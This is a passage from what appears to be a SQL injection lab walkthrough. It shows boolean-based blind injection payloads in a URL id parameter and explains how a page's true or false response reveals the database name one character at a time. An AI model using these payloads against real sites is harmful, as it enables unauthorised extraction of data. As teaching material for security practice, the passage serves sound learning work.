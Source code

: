 ![138.jpg](./img/138.jpg)

Now we use this query in the URL:

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 99 –+`

and we are through.
You are
in…………….
It means the value 99 is true.

![141.jpg](./img/141.jpg)


Let us see what happens if we change the value 99 to 98:

`?id=1′ AND (ascii(substr((select database()) ,3,3)) = 98`

We see that nothing happens on screen and we conclude that we get a false.

![143.jpg](./img/143.jpg)
